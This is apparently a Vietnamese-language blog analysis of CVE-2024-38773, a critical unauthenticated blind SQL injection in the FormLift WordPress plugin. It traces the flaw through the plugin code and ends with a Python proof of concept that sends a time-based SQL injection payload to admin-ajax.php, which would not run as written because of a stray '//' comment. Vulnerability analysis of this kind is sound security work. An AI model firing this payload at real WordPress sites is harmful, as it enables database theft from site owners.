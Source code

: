```yaml
---
layout: post
title:  "CVE-2024-38773 Analysis"
date:   2025-10-30 21:44:56 +0700
categories: wordpress
---
```

# Info:

Type: Blind SQL Injection

Plugin Name: **FormLift for Infusionsoft Web Forms**

Version: < 7.5.18

**Base Score:** [**9.8 CRITICAL**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2024-38773&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H


WPScan: [WPSCAN](https://wpscan.com/vulnerability/907f2dfb-90eb-4420-a845-b7260e64ea45/)

# PoC:

Tại hàm `formlift_submitV2` trong file `/wp-content/plugins/formlift/modules/form/submit.php`, phát hiện tham số `$formId` được nhận trực tiếp từ `$_POST[’form_id’]` mà không thực hiện lọc dữ liệu

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-1.png)

Sau khi biến `$formId`  được gán dữ liệu, hàm `do_acction` sẽ gọi đến  hook **`formlift_before_submit`.** Khi `do_action()` được gọi, mọi hàm đã đăng ký với hook đó đều sẽ được thực thi. 

Kiểm tra trong source code, phát hiện hàm **`formlift_before_submit`**được đăng kí xử lý khi `do_action( 'formlift_before_submit', $formId );` được gọi. 

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-2.png)

Hàm **`formlift_before_submit`** nhận vào tham số `formID` với giá trị được truyền vào từ hàm `do_action(…)`. Biến `formId` được truyền trực tiếp  vào hàm query dữ liệu `formlift_get_form_impressions`

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-3.png)

PoC check

```python
import requests
from datetime import datetime, timezone
import time

url = "http://localhost:8080/wp-admin/admin-ajax.php"

data = {
    "action": "formlift_submit_form",
    "form_id": "1 OR IF(MID(@@version,1,1)=8,sleep(2),1)=2" // check version 8
}

# Record start time (timezone-aware)
start_dt = datetime.now(timezone.utc)
start_ts = time.time()
print(f"Request start: {start_dt.isoformat()} (UTC)")

response = requests.post(url,  data=data)

# Record end time and compute duration
end_dt = datetime.now(timezone.utc)
end_ts = time.time()
duration_ms = (end_ts - start_ts) * 1000
print(f"Request end:   {end_dt.isoformat()} (UTC)")
print(f"Duration: {duration_ms:.2f} ms | Status: {response.status_code}")

print("--- response body ---")
print(response.text)
```

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-4.png)